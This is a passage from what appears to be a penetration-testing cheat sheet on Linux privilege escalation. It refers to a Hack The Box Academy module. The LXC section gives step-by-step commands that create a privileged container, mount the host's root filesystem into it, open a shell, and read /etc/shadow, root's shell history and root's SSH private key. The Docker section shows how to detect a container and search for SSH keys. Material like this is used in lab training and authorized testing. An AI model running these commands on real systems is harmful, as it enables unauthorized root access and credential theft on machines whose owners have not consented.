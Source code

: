   ```bash

  # IF THERE IS ALREADY an image, we import it:
  # Ex: https://academy.hackthebox.com/module/51/section/1588
  ```

  Create privileged container with access to host:

  ```bash
  # Create the container with privileged permission:
  lxc init alpine pwnbox -c security.privileged=true

  # Add the host filesystem to the container:
  lxc config device add pwnbox host-root disk source=/ path=/mnt/root recursive=true

  # Start container and access shell:
  lxc start pwnbox
  lxc exec pwnbox /bin/sh
  ```

  Now with root access:

  ```bash
  # Confirm root:
  id

  # Access host filesystem:
  cd /mnt/root/root
  ls

  # Sensitive data:
  cat /mnt/root/etc/shadow
  cat /mnt/root/root/.bash_history
  cat /mnt/root/root/.ssh/id_rsa
  ```

  ---
  <a id="9.2-docker"></a>
  ## **Docker**

  ### 1. Check if you are in a Docker container

  ```bash
  cat /proc/1/cgroup
  ```

  If you find lines with "docker", you are probably inside a container.

  ---

  ### 2. Check for mounted volumes (access to host filesystem)

  ```bash
  find / -type d -name '.ssh' 2>/dev/null
  find / -type f -name 'id_rsa' 2>/dev/null
  ```
